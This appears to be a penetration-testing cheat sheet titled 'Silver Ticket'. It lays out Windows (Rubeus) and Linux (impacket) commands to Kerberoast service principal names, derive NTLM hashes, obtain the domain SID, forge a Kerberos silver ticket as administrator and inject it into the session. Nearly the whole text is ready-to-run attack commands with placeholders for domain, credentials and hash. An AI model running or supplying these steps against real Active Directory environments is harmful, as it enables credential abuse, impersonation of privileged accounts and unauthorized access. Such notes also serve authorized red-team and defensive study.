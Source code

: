 ```yaml
---
title: "Silver Ticket"
date: 2024-7-30
tags: ["silver ticket", "rubeus", "active directory", "ad", "domain controller", "Windows", "GetUserSPNs"]
---
```


---
### From Windows

#### 1. Get service principle name (SPN)

```powershell
.\rubeus.exe kerberoast /domain:<DOMAIN> /dc:<DC> /creduser:<DOMAIN>\<USER> /credpassword:<PASSWORD> /nowrap
```

#### 2. Generate NTLM

```powershell
.\rubeus.exe hash /password:<PASSWORD>
```

#### 3. Get domain SID

#### 3a. Locally

```powershell
import-module activedirectory
```

```powershell
Get-ADDomain | fl DomainSID
```

#### 3b. Remotely

```powershell
# Install ldp.exe (Windows 11)
Settings > System > Optional Features > More Windows Features and add 'Active Driectory Lightweight Directory Services'
```

```powershell 
# Bind > Bind with credentials
ldp.exe
```

```powershell
# Browse > Search
BaseDN: DC=<example>,DC=<com>
Filter: (objectclass=User)
```

#### 4. Generate silver ticket

```powershell
.\rubeus.exe silver /domain:<DOMAIN> /dc:<DC> /sid:<SID> /rc4:<HASH> /user:administrator /service:<SPN> /ptt
```

#### 5. Check

```powershell
klist
```

### From Linux

#### 1. Get service principle name (SPN)

```bash
sudo ntpdate -s <DC> && impacket-GetUserSPNs <DOMAIN>/<USER>:<PASSWORD> -dc-ip <DC> -request -k
```

```bash
# If NTLM auth is disabled
sudo ntpdate -s <DC> && impacket-GetUserSPNs <DOMAIN>/<USER>:<PASSWORD> -dc-host <DC> -request -k
```

#### 2. Generate NTLM

```bash
iconv -f ASCII -t UTF-16LE <(printf "<PASSWORD>") | openssl dgst -md4
```

#### 3. Get domain SID

```bash
sudo ntpdate -s <DC> && impacket-getPac -targetUser administrator <DOMAIN>/<USER>:<PASSWORD>
```

#### 4. Generate Silver Ticket

```bash
impacket-ticketer -nthash <HASH> -domain-sid <SID> -domain <DOMAIN> -dc-ip <DC> -spn <SPN> administrator
```

#### 5. Import ticket

```bash
export KRB5CCNAME=administrator.ccache
```

#### 6. Check

```bash
klist
```

<br>